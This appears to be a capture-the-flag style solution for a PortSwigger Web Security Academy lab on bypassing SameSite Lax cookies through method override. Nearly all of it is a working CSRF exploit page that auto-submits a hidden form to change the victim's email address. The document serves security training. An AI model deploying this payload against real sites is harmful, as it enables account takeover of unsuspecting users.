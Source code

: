 https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

```html
<html>

<body>

<script>history.pushState(", ",'/')</script>

<form method="GET" action="https://0afd00bc0432b09780be17b1007f00f2.web-security-academy.net/my-account/change-email">
<input type="hidden" value="POST" name="_method">
<input type="hidden" value="pwned1@email.com" name="email">
<input type="submit" value="submit request">
</form>

<script>document.forms[0].submit();</script>

</body>

</html>
```

GG